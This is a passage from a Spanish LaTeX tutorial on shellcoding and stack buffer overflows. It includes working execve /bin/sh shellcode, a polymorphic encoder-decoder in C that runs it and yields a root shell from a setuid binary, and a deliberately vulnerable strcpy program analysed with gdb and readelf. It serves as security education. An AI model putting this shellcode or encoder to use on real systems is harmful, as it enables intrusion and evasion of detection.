%	\begin{verbatim}
\begin{listing}[style=consola, numbers=none, caption=$Script$ para obtener los $opcodes$ de un $shellcode$, label=fig:vlanScript]	
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/OtrasCosas$ 
		cat genShell.sh 
		#!/bin/sh

		objdump -d ./$1 | grep '[0-9a-f]:' |grep -v 'file' |cut -f2 -d: 
		|cut -f1-6 -d' ' |tr -s ' ' |tr '\t' ' ' |sed 's/ $//g' |	sed 's/ /\\x/g' 
		|paste -d '' -s |sed 's/^/"/' |sed 's/$/"/g'
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/OtrasCosas$ 
		./genShell.sh shellcode 
		"\x31\xc9\x31\xdb\x8d\x41\x17\x99\xcd\x80\x53\x68\x6e\x2f\"
		"x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/OtrasCosas$ 
\end{listing}
%	\end{verbatim} \botfigrule

As\'i pues, para obtener los $opcodes$ del $shellcode$ y del decodificador se deber\'a utilizar el $script$ mostrado en el C\'odigo \ref{fig:vlanScript} y pasar como argumento el ejecutable generado con el c\'odigo del $execve$ $shellcode$ y como c\'odigo fuente para el decodificador se utilizar\'a el C\'odigo \ref{fig:decoderShellcode}. \bigskip

El c\'odigo fuente final escrito en $C$ es el mostrado en el C\'odigo \ref{fig:CDecoder}. Como se lleva haciendo con los \'ultimos c\'odigos, la explicaci\'on del c\'odigo est\'a especificada en el mismo c\'odigo fuente.\\

\lstset{language=C++,caption=C\'odigo fuente del $shellcode$ polim\'orfico,label=fig:CDecoder}
\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <sys/time.h>
#include <stdlib.h>
#include <unistd.h>

//Esta funcion se encarga de generar un numero
//aleatorio menor al parametro pasado.
int getnumber(int quo) {
	int seed;
	struct timeval tm;
	gettimeofday(&tm, NULL);
	seed = tm.tv_sec + tm.tv_usec;
	srandom(seed);
	return ( random() % quo );
}

//Esta funcion se utiliza para ejecutar los opcodes
//especificados en la cadena que se envia como
//parametro. Para ejecutar los opcodes, se declara
//un puntero a una funcion. Acto seguido, se hace
//que el puntero a la funcion apunte a la cadena
//que almacena los opcodes. Una vez el puntero
//apunta a la cadena, se ejecuta la funcion, con
//lo que se ejecutan los opcodes del shellcode.
void execute(char * data) {
	void (*func) (void);
	func = (void *) data;
	func();

}

//Esta funcion sirve para mostrar por pantalla el shellcode,
//el decodificador o la union de los dos.
void print_code(char * data, int n) {
	int i, l = 15;
	switch (n) {
		case 1:
			printf("\n\nchar code[] =\n");
		break;
		case 2:
			printf("\n\nchar decoder[] =\n");
		break;
		case 3:
			printf("\n\nchar shellcode[] =\n");
		break;
		default:
			
		break;
	}
	
	for (i = 0; i < strlen(data); ++i) {
		if (l >= 15) {
			if (i)
				printf("\"\n");
			printf("\t\"");
			l = 0;
		}
		++l;
		printf("\\x%02x", ((unsigned char *)data)[i]);
	}
	printf("\";\n\n\n");
}

int main() {
	//Opcodes que identifican al shellcode
	char shellcode[] = 
	"\x31\xc0\x99\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";
	//Opcodes que identifican al decodificador
	char decoder[] = 
	"\xeb\x10\x5e\x31\xc9\xb1\x00\x80\x6c\x0e\xff\x00\xfe\xc9\x75\xf7\xeb\x05\xe8\xeb\xff\xff\xff";
	int count;
	//Se obtiene un numero aleatorio.
	int number = getnumber(200);
	int nullbyte = 0;
	int ldecoder;
	//Se obtiene la longitud del shellcode.
	int lshellcode = strlen(shellcode);
	char * result;

	//Se muestra por pantalla el codigo del decodificador y
	//del shellcode sin codificar.
	print_code(decoder, 2);
	print_code(shellcode, 3);


	//En la posicion de la cadena hexadecimal del decodificador donde 
	//deberia ir la longitud del shellcode, se inserta la longitud
	//calculada con la funcion strlen().	
	decoder[6] += lshellcode;
	//En la posicion de la cadena hexadecimal del decodificador donde 
	//deberia ir el numero aleatorio, se inserta la dicho numero
	//calculado con la funcion getnumber().	
	decoder[11] += number;
	
	ldecoder = strlen(decoder);
	
	//Este bucle se realiza para sumar el numero aleatorio a cada caracter
	//hexadecimal que identifica el shellcode. Al entrar, nullbyte = 0.
	do {
		if (nullbyte == 1) {
			//Si se ha generado un byte nulo en el shellcode,
			//se genera un nuevo numero aleatorio, se modifica
			//dicho valor en el decodificador y se vuelve a
			//realizar el proceso de codificacion.
			number = getnumber(10);
			decoder[11] += number;
			nullbyte = 0;
		}
		//Se recorre todo el shellcode y a cada byte de la cadena
		//shellcode, se le suma el numero aleatorio.
		for (count = 0; count < lshellcode; count++) {
			shellcode[count] += number;
			//Si despues de realizar dicha suma, hay algun byte
			//que es cero, se debe volver a realizar todo el
			//proceso
			if (shellcode[count] == '\0') {
				nullbyte = 1;
			}
		}
	//El proceso de codificacion se llevara a cabo hasta que no haya
	//ningun byte nulo en el shellcode.
	} while (nullbyte == 1);

	//Se reserva espacio para el decodificador y el shellcode.
	result = malloc(lshellcode + ldecoder);
	//En dicho espacio de memoria se almacena el decodificador
	//y el shellcode.
	strcpy(result, decoder);
	strcat(result, shellcode);
	//Se muestra por pantalla el numero aleatorio generado y
	//la cadena que identifica al decodificador y el shellcode
	//codificado.
	printf("Using value: %x to encode shellcode\n", number);
	print_code(result, 1);
	//Por ultimo, se ejecuta el decodificador y el shellcode.
	execute(result);
	//En este momento se deberia obtener una bonita shell!
} 
\end{lstlisting}

El C\'odigo \ref{fig:EjecucionCDecoder} muestra como compilar y ejecutar el C\'odigo \ref{fig:CDecoder}. Debido a que se ha ejecutado un simple $execve$ $shellcode$ no tiene sentido ejecutar comandos como $pwd$ para mostrar las diferencias entre los directorios antes y despu\'es de ejecutar el $shellcode$. Sin embargo, se aumentar\'an los privilegios del $shellcode$ polim\'orfico para demostrar como antes de ejecutar el $shellcode$ se tienen unos privilegios menores que cuando el $shellcode$ lanza la $shell$ desde la cual se podr\'a ejecutar cualquier comando.\\

%\begin{figure}[!hbp]
%	\topfigrule
%	\centering
%   	\addtolength{\abovecaptionskip}{-12pt}   	
%   	\renewcommand{\figurename}{C\'odigo}
%   	\caption{Ejecuci\'on del $shellcode$ polim\'orfico}
%   	\label{fig:EjecucionCDecoder}   		
%	\begin{verbatim}
\begin{listing}[style=consola, numbers=none, caption=Ejecuci\'on del $shellcode$ polim\'orfico, label=fig:EjecucionCDecoder]	
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Polymorphic/CCode$ 
		gcc PolymorphicCCode.c -o PolymorphicCCode
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Polymorphic/CCode$ 
		execstack -s PolymorphicCCode
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Polymorphic/CCode$ 
		sudo chown root PolymorphicCCode
		[sudo] password for newlog: 
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Polymorphic/CCode$ 
		sudo chmod +s PolymorphicCCode
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Polymorphic/CCode$ 
		id
		uid=1000(newlog) gid=1000(newlog) grupos=4(adm),20(dialout),24(cdrom),
		46(plugdev),104(lpadmin),115(admin),120(sambashare),1000(newlog)
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Polymorphic/CCode$ 
		./PolymorphicCCode 


		char decoder[] =
			"\xeb\x10\x5e\x31\xc9\xb1";




		char shellcode[] =
			"\x31\xc0\x99\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89"
			"\xe3\xb0\x0b\xcd\x80";


		Using value: 53 to encode shellcode


		char code[] =
			"\xeb\x10\x5e\x31\xc9\xb1\x14\x80\x6c\x0e\xff\x53\xfe\xc9\x75"
			"\xf7\xeb\x05\xe8\xeb\xff\xff\xff\x84\x13\xec\xa3\xbb\xc1\x82"
			"\xc6\xbb\xbb\x82\x82\xb5\xbc\xdc\x36\x03\x5e\x20\xd3";


		# id
		uid=1000(newlog) gid=1000(newlog) euid=0(root) groups=4(adm),20(dialout),24(cdrom),
		46(plugdev),104(lpadmin),115(admin),120(sambashare),1000(newlog)
		# exit
\end{listing}
%	\end{verbatim} \botfigrule

Como se puede comprobar en el C\'odigo \ref{fig:EjecucionCDecoder} la parte inicial de la cadena $code$ es igual que la cadena $decoder$, sin embargo, la parte que continua es diferente a la cadena $shellcode$. Para comprobar que el codificador se ha aplicado correctamente, se puede coger el \'ultimo $opcode$ de la cadena $shellcode$, sumarle 53 y se puede comprobar como el resultado es igual al \'ultimo $opcode$ de la cadena $code$. Todo este proceso se ha de realizar en hexadecimal. 80h + 53h = d3h.

\subsection{Reutilizaci\'on de las variables de un programa}
Este $hack$ se debe utilizar cuando el espacio de memoria en el que se puede ubicar el $shellcode$ es limitado y no se puede insertar el c\'odigo.\\
Ejecutar $shellcodes$ utilizando esta t\'ecnica es bastante complejo debido a dos razones. La primera es que el programa a explotar ha de contener alguna variable que se pueda utilizar. La segunda raz\'on es que el $exploit$ resultante, y por consiguiente el $shellcode$, s\'olo funcionar\'a para las versiones del programa compiladas con un mismo compilador. Esto significa que si se construye un $exploit$ para un ejecutable compilado por un compilador $x$, este exploit no tendr\'ia porqu\'e funcionar para el mismo ejecutable compilado por un compilador $y$.\\
La base de este $hack$ reside en conocer la posici\'on de memoria donde el programa vulnerable almacena la variable que queremos utilizar.\\
Llevar a cabo este $hack$ es bastante m\'as sencillo cuando se trabaja con programas de c\'odigo abierto\footnote{Un programa de c\'odigo abierto es aquel del que se puede disponer de su c\'odigo fuente.}, que no cuando se hace con los de c\'odigo cerrado.

\subsubsection{Programas de c\'odigo abierto}

Con los programas de c\'odigo abierto es mucho m\'as f\'acil descubrir si se pueden utilizar sus variables para nuestros fines ya que se puede revisar su c\'odigo. Una vez se encuentre algo que sea de utilidad se compilar\'a el c\'odigo del programa y se utilizar\'a un $debugger$\footnote{Un debugger es una herramienta que permite ejecutar un programa de manera controlada.} para descubrir donde se aloja la variable en memoria.\bigskip
Pongamos por caso que el siguiente c\'odigo fuera el vulnerable.

\lstset{language=C++,caption=C\'odigo vulnerable}
\begin{lstlisting}
#include <stdio.h>
#include <string.h>

void abuso() {
	char * command = "/bin/sh";
	printf("%s", command); 
}

int main (int argc, char **argv) {
	char buf[256];
	strcpy(buf, argv[1]);
	abuso();
}
\end{lstlisting}

Si un $exploit$ utilizara el $execve$ $shellcode$ para ejecutar un int\'erprete de comandos, es obvio que sabiendo donde est\'a ubicada en memoria la variable $command$ el $shellcode$ ser\'ia m\'as peque\~no. As\'i pues, suponiendo que la variable est\'a ubicada en la direcci\'on de memoria $direcciondememoria$, un $shellcode$ funcional podr\'ia ser el siguiente:

\lstset{language=[x86masm]Assembler,caption=$Execve$ $shellcode$ te\'orico}
\begin{lstlisting}
BITS 32
xor eax, eax
cdq
mov byte al, 11
push edx
push long 'direcciondememoria'
mov ebx, esp
push edx
mov edx, esp
push ebx
mov ecx, esp
int 0x80
\end{lstlisting}

La correcta ejecuci\'on de este $shellcode$ no se puede demostrar sin tener una base m\'inima sobre la explotaci\'on de $buffers$. Este $shellcode$ no se podr\'ia ejecutar sin haber explotado un programa vulnerable, ya que la direcci\'on de memoria  $direcciondememoria$ pertenece al programa vulnerable y ning\'un otro programa puede acceder a ella.\\
Cuando se explota un programa vulnerable, es este mismo programa el que acaba ejecutando las instrucciones del $shellcode$ y, debido a esto, el programa podr\'a acceder a la posici\'on de memoria donde se ha ubicado la cadena y ejecutar el $shellcode$. \\
\\

Para descubrir cual es la direcci\'on de memoria donde se almacena el contenido de la variable $command$ se puede proceder tal que as\'i:

\begin{listing}[style=consola, numbers=none, caption=An\'alisis con $gdb$]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Vulnerable$ gcc -g vuln.c -o vuln
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Vulnerable$ gdb -q vuln
Leyendo símbolos desde /home/newlog/Documentos/Shellcoding/Codigos/Vulnerable/vuln...hecho.
(gdb) b abuso
Punto de interrupción 1 at 0x804844a: file vuln.c, line 5.
(gdb) run AAA
Starting program: /home/newlog/Documentos/Shellcoding/Codigos/Vulnerable/vuln AAA

Breakpoint 1, abuso () at vuln.c:5
5		char * command = "/bin/sh";
(gdb) n
6		printf("%s", command); 
(gdb) x/2x command
0x8048580:	0x6e69622f	0x0068732f
(gdb) quit
Una sesión de depuración está activa.

	Inferior 1 [process 2643] will be killed.

¿Salir de cualquier modo? (y o n) y
\end{listing}

Primero de todo se compila el c\'odigo fuente con el $flag$ -g para que la depuraci\'on del ejecutable con el depurador $gdb$ sea m\'as simple. Acto seguido se ejecuta el depurador $gdb$ y se establece un punto de ruptura al principio de la funci\'on $abuso$. Cuando se ejecute el programa con la instrucci\'on $run$ con el par\'ametro 'AAA' a trav\'es de $gdb$ el flujo de ejecuci\'on se detendr\'a al entrar en la funci\'on $abuso$. A continuaci\'on se ejecuta la instrucci\'on $n$ para decirle a $gdb$ que ejecute la siguiente instrucci\'on. Una vez se ha ejecutado la instrucci\'on, con $x$/$2x$ $command$ se examina qu\'e contiene la direcci\'on de memoria donde apunta la cadena $command$. El valor $2x$ indica que se muestren los 64 $bits$ contiguos a la direcci\'on de memoria donde apunta la cadena $command$. El primer valor en hexadecimal que aparece a la izquierda, precedente a los dos puntos, es la direcci\'on que se est\'a buscando. La direcci\'on de memoria inicial donde se ubican los datos de la cadena $command$.

\subsubsection{Programas de c\'odigo cerrado}

En el ejemplo anterior se han tenido dos facilidades. La primera ha sido que se han podido buscar las variables del programa en el c\'odigo fuente. La segunda ha sido que el proceso de $debug$ ha sido m\'as f\'acil ya que se sab\'ia en qu\'e funci\'on se encontraba la variable que se utilizar\'ia. Ahora las cosas se han vuelto m\'as dif\'iciles, pero no mucho m\'as.\\
Normalmente, en sistemas $Unix$, el formato ejecutable m\'as com\'un es el $ELF$. Estos tipos de ejecutables almacenan las cadenas y otras variables en dos segmentos de memoria: $.rodata$ y $.data$.\\
Esta vez, en vez de utilizar $gdb$ se utilizar\'a una utilidad llamada $readelf$, Gracias a esta utilidad se podr\'a obtener informaci\'on de todos los segmentos de memoria que utiliza el programa a explotar.\\
\\
La sintaxis para mostrar dicha informaci\'on es:

\begin{listing}[style=consola, numbers=none, caption=Segmentos de memoria]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Vulnerable$ readelf -S vuln
There are 37 section headers, starting at offset 0x151c:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048134 000134 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048148 000148 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048168 000168 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        0804818c 00018c 000020 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481ac 0001ac 000070 10   A  6   1  4
  [ 6] .dynstr           STRTAB          0804821c 00021c 00006e 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          0804828a 00028a 00000e 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         08048298 000298 000030 00   A  6   1  4
  [ 9] .rel.dyn          REL             080482c8 0002c8 000008 08   A  5   0  4
  [10] .rel.plt          REL             080482d0 0002d0 000028 08   A  5  12  4
  [11] .init             PROGBITS        080482f8 0002f8 000030 00  AX  0   0  4
  [12] .plt              PROGBITS        08048328 000328 000060 04  AX  0   0  4
  [13] .text             PROGBITS        08048390 000390 0001cc 00  AX  0   0 16
  [14] .fini             PROGBITS        0804855c 00055c 00001c 00  AX  0   0  4
  [15] .rodata           PROGBITS        08048578 000578 000013 00   A  0   0  4
  [16] .eh_frame         PROGBITS        0804858c 00058c 000004 00   A  0   0  4
  [17] .ctors            PROGBITS        08049f14 000f14 000008 00  WA  0   0  4
  [18] .dtors            PROGBITS        08049f1c 000f1c 000008 00  WA  0   0  4
  [19] .jcr              PROGBITS        08049f24 000f24 000004 00  WA  0   0  4
  [20] .dynamic          DYNAMIC         08049f28 000f28 0000c8 08  WA  6   0  4
  [21] .got              PROGBITS        08049ff0 000ff0 000004 04  WA  0   0  4
  [22] .got.plt          PROGBITS        08049ff4 000ff4 000020 04  WA  0   0  4
  [23] .data             PROGBITS        0804a014 001014 000008 00  WA  0   0  4
  [24] .bss              NOBITS          0804a01c 00101c 000008 00  WA  0   0  4
  [25] .comment          PROGBITS        00000000 00101c 00002b 01  MS  0   0  1
  [26] .debug_aranges    PROGBITS        00000000 001047 000020 00      0   0  1
  [27] .debug_pubnames   PROGBITS        00000000 001067 000025 00      0   0  1
  [28] .debug_info       PROGBITS        00000000 00108c 0000fd 00      0   0  1
  [29] .debug_abbrev     PROGBITS        00000000 001189 0000a7 00      0   0  1
  [30] .debug_line       PROGBITS        00000000 001230 00003f 00      0   0  1
  [31] .debug_frame      PROGBITS        00000000 001270 000044 00      0   0  4
  [32] .debug_str        PROGBITS        00000000 0012b4 0000b7 01  MS  0   0  1
  [33] .debug_loc        PROGBITS        00000000 00136b 000058 00      0   0  1
  [34] .shstrtab         STRTAB          00000000 0013c3 000156 00      0   0  1
  [35] .symtab           SYMTAB          00000000 001ae4 0004b0 10     36  52  4
  [36] .strtab           STRTAB          00000000 001f94 000230 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings)
  I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown)
  O (extra OS processing required) o (OS specific), p (processor specific)
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Vulnerable$
\end{listing}

Como se ve, se muestran todos los segmentos utilizados y, adem\'as, estan numerados. Los segmentos $.data$ y $.rodata$ aparecen en la lista.\\
Para ver lo que contiene cada segmento s\'olo se ha de ejecutar la siguiente instrucci\'on:

\begin{listing}[style=consola, numbers=none, caption=Segmento .data y .rodata]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Vulnerable$ readelf -x 15 vuln

Hex dump of section '.rodata':
  0x08048578 03000000 01000200 2f62696e 2f736800 ......../bin/sh.
  0x08048588 257300                              %s.

newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Vulnerable$ readelf -x 23 vuln

Hex dump of section '.data':
  0x0804a014 00000000 00000000                   ........

\end{listing}

Como se puede comprobar, es la secci\'on .$rodata$ la que contiene la cadena ''/bin/sh''. Para calcular cual es su posici\'on exacta en memoria basta sumarle los $bytes$ necesarios a la direcci\'on 0x08048578, que es la direcci\'on de memoria donde empieza la cadena ''......../bin/sh.''. Para saber la direcci\'on de memoria donde se ubica la cadena ''/bin/sh'' se debe sumar 8 $bytes$ a la direcci\'on inicial. Estos 8 $bytes$ son los relativos a la cadena ''........'' que precede a la cadena ''/bin/sh''. Cuando se realiza el c\'alculo 08048578h + 8d el resultado es 8048580h. Como se puede comprobar, esta es la misma direcci\'on de memoria a la que se llego realizando el an\'alisis del c\'odigo fuente de la aplicaci\'on.

\pagebreak

\section{Exploiting}

En los lenguajes de programaci\'on, las variables no son m\'as que un espacio de memoria reservado. Cuando se declara una variable de cierto tipo, el compilador reserva el espacio necesario para poder almacenar correctamente el valor de dicha variable. Por ejemplo, en el lenguaje de programaci\'on $C$, si se declara una variable de tipo $char$, el compilador le asignar\'a cierta direcci\'on de memoria a la variable, y a la siguiente variable declarada en el programa se le asignar\'a la misma direcci\'on de memoria sum\'andole o rest\'andole un $byte$, dependiendo de la implementaci\'on del compilador. De este modo, el tama\~no de una variable de tipo $char$ es de un $byte$. Evidentemente, el compilador conoce de antemano cual es el tama\~no de cada variable.\bigskip

Un desbordamiento de b\'ufer se da cuando el valor que se almacena en una variable ocupa m\'as que el espacio que se ha reservado para ella. Cuando se da un desbordamiento de b\'ufer, se puede desembocar en tres situaciones diferentes. La primera de ellas es en la que el programa finaliza debido a que los datos que se deber\'ian haber almacenado en la variable, sobreescriben posiciones de memoria que no pertenecen al programa ejecutado. La segunda situaci\'on es en la que los datos que se deber\'ian haber almacenado en la variable, sobreescriben otras posiciones de memoria que pertenecen al programa ejecutado. Esta segunda situaci\'on desemboca en la corrupci\'on de los datos relativos al programa, ya sean datos almacenados por \'este o sean datos a\~nadidos por el compilador para llevar a cabo una correcta ejecuci\'on. La \'ultima situaci\'on es la uni\'on de las dos situaciones anteriores. Se da cuando se corrompen datos relativos al programa y, adem\'as, \'este finaliza inesperadamente.\bigskip

Cuando los datos almacenados en memoria relativos a un programa en ejecuci\'on son modificados, se pueden modificar datos almacenados por el programa o se pueden modificar datos insertados por el compilador. Cuando se lleva a cabo el primer tipo de modificaci\'on de datos, no se podr\'a llegar a ejecutar el $shellcode$ seleccionado, sin embargo, alterar los datos almacenados por el programa, puede permitir controlar el flujo de ejecuci\'on del mismo y, as\'i, llegar a ejecutar partes del c\'odigo que de otro modo no se hubieran podido ejecutar. En cambio, si se pudieran modificar los datos insertados por el compilador, se podr\'ia llegar a insertar c\'odigo de nuestra elecci\'on y totalmente ajeno al programa en ejecuci\'on. Es en este momento en el que se deber\'ian aplicar todas las t\'ecnicas plasmadas en los cap\'itulos anteriores.\bigskip

Todo el proceso de investigaci\'on para vulnerar un programa es lo que se conoce como $exploiting$.

\pagebreak

\section{Desbordamiento de b\'ufers en la pila}

Se denomina pila a una regi\'on de memoria en la que los datos se almacenan siguiendo un patr\'on llamado LIFO\footnote{Last In, First Out}. Este patr\'on se basa en dos conceptos diferentes. El primero de ellos es que los datos almacenados s\'olo se pueden obtener y almacenar sin controlar la posici\'on de memoria de la que se lee o en la que se almacena. Una vez se lee un dato insertado en la pila, ya no se puede volver a acceder a \'el. El segundo concepto es que, partiendo de una direcci\'on de memoria inicial, los datos se van insertando de forma contigua. Cuando se ejecuta la operaci\'on de lectura, el dato que se obtiene es el \'ultimo dato insertado. De ah\'i vienen las siglas del patr\'on, el \'ultimo en entrar, es el primero en salir.\\

Cada vez que un programa ejecuta una funci\'on\footnote{Tambi\'en se incluye la funci\'on $main$ de un programa.}, en memoria se genera una estructura de datos siguiendo el patr\'on de una pila. En esta secci\'on de memoria, de ahora en adelante llamada pila, se almacenan los datos que son necesarios para la correcta ejecuci\'on de las funciones de un programa. Esta estructura que se construye cuando se ejecuta una funci\'on se llama $stack$ $frame$ o marco de pila. Una vez se ha ejecutado la funci\'on, el marco de pila creado puede ser sobreescrito por los marcos de pila que generen otras funciones. \\
Sin entrar en los detalles espec\'ificos de cada compilador, un marco de pila est\'a formado por los datos mostrados a continuaci\'on. \bigskip

\begin{verbatim}
+----------------------+  <----+
|    Argumentos de     |       |
|      la funcion      |       |
|----------------------+       |
|     Direccion de     |       |
|       retorno        |       |
|----------------------+        > Stack frame
|  Direccion del marco |       |
|   de pila anterior   |       |
|----------------------+       |
|   Variables locales  |       |
|     de la funcion    |       |
+----------------------+  <----+
\end{verbatim}
\bigskip

Primero de todo se almacenan los argumentos de la funci\'on a ejecutar. Posteriormente se almacena la direcci\'on de retorno y la direcci\'on del marco de pila anterior\footnote{Tambi\'en llamado $saved$ $frame$ $pointer$.}. Por \'ultimo se almacenan las variables locales de la funci\'on.\\
En este momento hay varias preguntas que no tienen respuesta: \bigskip

\begin{itemize}
	\item \textbf{Qu\'e es la direcci\'on de retorno?}
\end{itemize}

Cuando se ejecuta un programa, cada una de las instrucciones que forman ese programa son almacenadas en memoria. Como ya se ha visto en los cap\'itulos anteriores, la instrucci\'on equivalente en ensamblador a llamar una funci\'on es la instrucci\'on $call$. La instrucci\'on $call$ hace que el flujo de ejecuci\'on de un programa se desv\'ie y que se ejecuten instrucciones que no son contiguas a este $call$. Una vez se ha ejecutado la funci\'on en cuesti\'on, el flujo de ejecuci\'on del programa debe continuar con la instrucci\'on contigua al $call$.\\
Para que se pueda llevar a cabo correctamente esta tarea es necesario almacenar la direcci\'on de memoria donde se ubica dicha instrucci\'on. Si no se almacenara la direcci\'on donde se ubica la instrucci\'on posterior al $call$ no ser\'ia posible continuar ejecutando el programa.

\begin{itemize}
	\item \textbf{Qu\'e es la direcci\'on del marco de pila anterior?}
\end{itemize}

La direcci\'on del marco de pila anterior\footnote{Saved Frame Pointer} es la direcci\'on de memoria donde empieza el marco de pila anterior. Se debe tener constancia de esta direcci\'on ya que de no ser as\'i no ser\'ia posible ejecutar algoritmos recursivos.

\begin{itemize}
	\item \textbf{C\'omo se sabe que lo primero que se almacena en el marco de pila son los argumentos de la funci\'on y que no son lo \'ultimo que se almacena?}
\end{itemize}

Para responder a esta pregunta, partiendo de la base de que el esquema del marco de pila anterior es correcto, es necesario saber si los datos que se almacenan en la pila se almacenan de forma ascendente o de forma descendente. O sea, si los datos se almacenan de posiciones de memoria menores hacia direcciones de memoria mayores o del rev\'es.\\
Para desmostrar este concepto, se puede utilizar el siguiente c\'odigo. 

\lstset{language=C++,caption=Obteniendo el valor del registro ESP}
\begin{lstlisting}
#include <stdio.h>

void foo() {

        int reg_esp;
        //ESP value is stored in reg_esp variable
        __asm__ __volatile__ ("mov %%esp, %0" :"=g"(reg_esp));

        printf("ESP value in function: %p\n", (void *) reg_esp);
}

int main(int argc, char ** argv) {

        int reg_esp;

        __asm__ __volatile__ ("mov %%esp, %0" :"=g"(reg_esp));

        printf("ESP value before function: %p\n", (void *) reg_esp);

        foo();

        __asm__ __volatile__ ("mov %%esp, %0" :"=g"(reg_esp));

        printf("ESP value after function: %p\n\n", (void *) reg_esp);

        return 0;
}
\end{lstlisting}

El registro ESP es un registro que almacena la direcci\'on del \'ultimo dato que se ha insertado en la regi\'on de memoria que se utiliza como pila para contruir los marcos de pila de cada funci\'on. Este c\'odigo muestra el valor del registro ESP antes de ejecutar una funci\'on, mientras se est\'a ejecutando la funci\'on y una vez se ha ejecutado la funci\'on.\\
La salida del programa es la siguiente:

\begin{listing}[style=consola, numbers=none, caption=Valor del registro ESP]	
newlog@newlog:~/Documentos/Shellcoding/Codigos/StackOverflows/GrowingStack$ ./growingStack 
ESP value before function: 0xbf8c2490
ESP value in function: 0xbf8c2460
ESP value after function: 0xbf8c2490
newlog@newlog:~/Documentos/Shellcoding/Codigos/StackOverflows/GrowingStack$ 
\end{listing}

El valor del registro ESP antes de que se ejecute la funci\'on es la direcci\'on 0xbf8c2490. Una vez se est\'a ejecutando la funci\'on, el valor del registro ESP es 0xbf8c2460. Esto significa que cuando se est\'a ejecutando la funci\'on, la direcci\'on de memoria que almacena el registro ESP es menor - 30 $bytes$ menor - que la direcci\'on de memoria que almacena el registro ESP antes o despu\'es de que se haya ejecutado la funci\'on. Esto significa que la pila crece de modo descendente. De direcciones mayores a menores.\\
Esto es importante ya que gracias o a pesar de ello, se podr\'an o no se podr\'an sobreescribir datos importantes del marco de pila de cada funci\'on. 


\subsection{Marco de pila generado por el compilador GCC}

Una vez ilustrado el m\'etodo de construcci\'on te\'orico del marco de pila, este apartado mostrar\'a cual es la estructura exacta del marco de pila generado por el compilador GCC en su versi\'on 4.4.5. Este es un paso imprescindible para entender que no es necesario conocer exactamente la estructura del marco de pila para aprovechar un desbordamiento de b\'ufer en la pila.\\
La mayor\'ia de los compiladores actuales siguen el patr\'on explicado anteriormente, sin embargo, a\~naden datos ajenos al c\'odigo compilado por cuestiones de funcionalidad, rendimiento, etc. \\
\\
Para ver la estructura del marco de pila de una funci\'on, se descompilar\'a el siguiente c\'odigo fuente.\\

\lstset{language=C++,caption=C\'odigo fuente stackFrame.c}
\begin{lstlisting}
#include <stdio.h>

int foo(int var1) {
        int var2;
        var1 = 1;
        var2 = 2;
        return var2;
}

int main() {

        int var1 = 2;
        foo(var1);

        return 0;
}
\end{lstlisting}

El c\'odigo fuente es muy simple. A continuaci\'on se descompilar\'a el $main$ y la funci\'on $foo$ para saber qu\'e instrucciones en ensamblador genera gcc al compilar el c\'odigo fuente.

\begin{listing}[style=consola, numbers=none, caption=Ejecutable stackFrame descompilado]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/StackFrame$ gcc stackFrame.c -o stackFrame
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/StackFrame$ gdb -q stackFrame
Leyendo símbolos desde /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/StackFrame/stackFrame...(no se encontraron símbolos de depuración)hecho.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x080483ad <+0>:	push   ebp
   0x080483ae <+1>:	mov    ebp,esp
   0x080483b0 <+3>:	sub    esp,0x14
   0x080483b3 <+6>:	mov    DWORD PTR [ebp-0x4],0x2
   0x080483ba <+13>:	mov    eax,DWORD PTR [ebp-0x4]
   0x080483bd <+16>:	mov    DWORD PTR [esp],eax
   0x080483c0 <+19>:	call   0x8048394 <foo>
   0x080483c5 <+24>:	mov    eax,0x0
   0x080483ca <+29>:	leave  
   0x080483cb <+30>:	ret    
End of assembler dump.
(gdb) disass foo
Dump of assembler code for function foo:
   0x08048394 <+0>:	push   ebp
   0x08048395 <+1>:	mov    ebp,esp
   0x08048397 <+3>:	sub    esp,0x10
   0x0804839a <+6>:	mov    DWORD PTR [ebp+0x8],0x1
   0x080483a1 <+13>:	mov    DWORD PTR [ebp-0x4],0x2
   0x080483a8 <+20>:	mov    eax,DWORD PTR [ebp-0x4]
   0x080483ab <+23>:	leave  
   0x080483ac <+24>:	ret    
End of assembler dump.
(gdb) quit
\end{listing}

